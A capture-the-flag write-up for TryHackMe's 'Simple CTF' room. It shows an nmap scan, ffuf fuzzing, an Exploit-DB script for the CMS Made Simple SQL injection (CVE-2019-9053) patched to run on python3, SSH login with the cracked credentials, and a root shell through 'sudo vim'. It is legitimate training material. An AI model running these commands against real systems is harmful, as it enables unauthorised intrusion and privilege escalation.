 ```bash
# PLATFORM          . THM
# CTF NAME          . Simple CTF
# DESCRIPTION       . Beginner level ctf
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/easyctf
```

```bash
sudo nmap -sSVC -T5 10.10.215.71 -p- -oN simplectf
```

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.53.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status

80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- from the nmap scan, we already see 3 interesting things:

- ssh was moved from the default port `22` to `2222`, in an attempt to hide it from public eye.

- `FTP` is allowing anonymous login 
- `robots.txt` has 2 disallowed entries.

```robots.txt
Disallow: /openemr-5_0_1_3
```

- This made me think that maybe OpenEMR is installed on the webserver, and by looking around I found that version 5.0.1.3 is vulnerable. 

- However, I wanted to see if there's something else hidden around so I've done some fuzzing

```bash
ffuf -u http://10.10.215.71/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 100 -e .php
```

```bash
simple                  [Status: 301, Size: 313, Words: 20, Lines: 10]
```

- This revealed a new page - running CMS Made Simple v2.2.8

- After some googling, I've found on Exploit-DB that all CMS Made Simple versions <= 2.2.10 are vulnerable to unauthenticated SQL injection - [CVE-2019-9053](https://nvd.nist.gov/vuln/detail/CVE-2019-9053)

- I've downloaded the python script and made it work with python3 ... jokes on me :) 

```bash
python3 46635.py -u http://10.10.215.71/simple/ --crack -w /usr/share/wordlists/SecLists/Passwords/darkweb2017-top1000.txt
```

- After running for a while, the script decided that it can't crack the password.

```
if hashlib.md5(str(salt) + line).hexdigest() == password:

TypeError: Strings must be encoded before hashing
```

So I've changed the line to 

```python
hashlib.md5((salt + line).encode()).hexdigest()
```

and gave it another try.

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

- Okay, it seems we got some credentials: mitch:secret

- I tried connecting to `FTP` first, but we can't.

```bash
530 This FTP server is anonymous only.
```

**NOTE**: Connecting with `anonymous:anonymous` doesn't reveal anything.

- It seems that the credentials are working for `SSH`.

```bash
ssh mitch@10.10.215.71 -p 2222

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ whoami
mitch
```

- First flag is located at `/home/mitch/user.txt`

- After finding the flag, I've started checking for privilege escalation vectors.

- A simple `sudo -l` reveals that we can use `vim` as `sudo`. This is very powerful, as we can spawn a `shell` under `root`.

```bash
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

```bash
sudo vim -c ':!/bin/bash'
```

```bash
root@Machine:/home# oopsie
```

- The last flag is at `/root/root.txt`.



